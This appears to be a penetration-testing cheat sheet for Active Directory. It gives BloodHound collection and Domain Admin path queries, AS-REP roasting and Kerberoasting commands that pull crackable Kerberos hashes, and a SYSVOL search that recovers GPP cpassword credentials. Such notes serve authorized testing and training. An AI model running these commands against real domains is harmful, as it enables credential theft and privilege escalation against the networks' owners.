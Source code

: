 # Conda

## Bloodhound

### Collection

#### SharpHound

```bash
```

#### BloodHound.py

```bash
# Installation
pip3 install bloodhound
# Binary
bloodhound-python
# Command
bloodhound-python -u <username> -p <password> -ns <IP> -d <domain.local> -c All
# Copy json output file into Bloodhound
```

### Enumeration

#### Node Info

* Can search and select a specific user, machine, etc. where you can get details of it.
* Can right click on user in graph and mark as owned.
* Can right click on permission and click on Help.

#### Queries

* Find AS-REP Roastable Users (DontReqPreAuth)&#x20;
* Find Shortest Paths to Domain Admin
* Shortest Paths to Domain Admins from Owned Principals

## AS-REP Roasting

> Need to have a username or list of usernames to perform

### GetNPUsers

```bash
# From Kali
GetNPUsers.py <domain.local>/<username> -dc-ip=<IP>
# Look "getting its TGT"
$krb5asrep$23$<username>@<domain.local>:12345...
# Then can attempt to brute force offline with John or Hashcat
```

## Kerberoasting

> Must have an already compromised account to authenticate with

### GetUserSPNs

```bash
# From Kali
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username>
# A list of accounts with SPNs should show along with the account name, etc.
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username> -request
# Look for the hash in the output
$krb5tgs$23$*<Username>$<domain.local$<domain.local>/<username*>$12345...
# Then can attempt to brute force offline with John or Hashcat
```

## GPP Credentials

> Must have an already compromised account to authenticate with

### Get-GPPPassword.ps1

```bash
# From Windows Target
findstr /S /I cpassword \\<domain.local>\sysvol\<domain.local>\policies\*.xml
# Look for the cpassword= value
cpassword="<value>"
# Then can attempt to decrypt them offline using PowerSploit's Get-GPPPassword.ps1
Get-GPPPassword
# Look for Password value output
```
